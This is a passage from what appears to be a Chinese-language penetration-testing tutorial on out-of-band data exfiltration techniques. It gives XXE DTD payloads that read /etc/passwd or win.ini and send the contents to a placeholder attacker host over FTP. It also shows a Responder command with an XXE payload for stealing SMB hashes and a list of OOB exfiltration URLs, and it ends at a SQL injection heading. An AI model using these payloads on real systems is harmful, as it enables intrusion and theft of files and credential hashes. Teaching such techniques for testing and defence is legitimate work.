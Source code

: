 **linux.dtd**

```dtd
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://dnsattacker.com:2121/%data;'>">
```

**![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630079_5b971d3fd57e0.png!small)**

**注：**对基于Windows的受害者机器，请使用以下dtd文件。

**windows.dtd**

```dtd
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://dnsattacker.com:2121/%data;'>">
```

### 4. SMB [窃取哈希]

攻击者：运行responder捕获哈希值

```python
sudo ./Responder.py -I eth0
```

受害者：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "\\dnsattacker.com\test" >]>
<foo>&xxe;</foo>
```

**注：**出于演示目的，我们将使用CVE-2018-0878：Windows远程协助信息泄露漏洞。

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630118_5b971d660da4f.png!small)](https://image.3001.net/images/20180911/1536630118_5b971d660da4f.png)

类似地，其他可能泄露数据的payloads

```
http://oob.dnsattacker.com:port/%data
ftp://oob.dnsattacker.com:port/%data
gopher://oob.dnsattacker.com:port/%data%
ldap://oob.dnsattacker.com:port
\\oob.dnsattacker.com\\C$\\1.txt
```

## 五、SQL注入

**注：**所有数据库服务器都安装在Windows上。有关SQL Injection cheat sheets请参考[[1](http://pentestmonkey.net/category/cheat-sheet/sql-injection)][[2](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)]

### 1. 检测
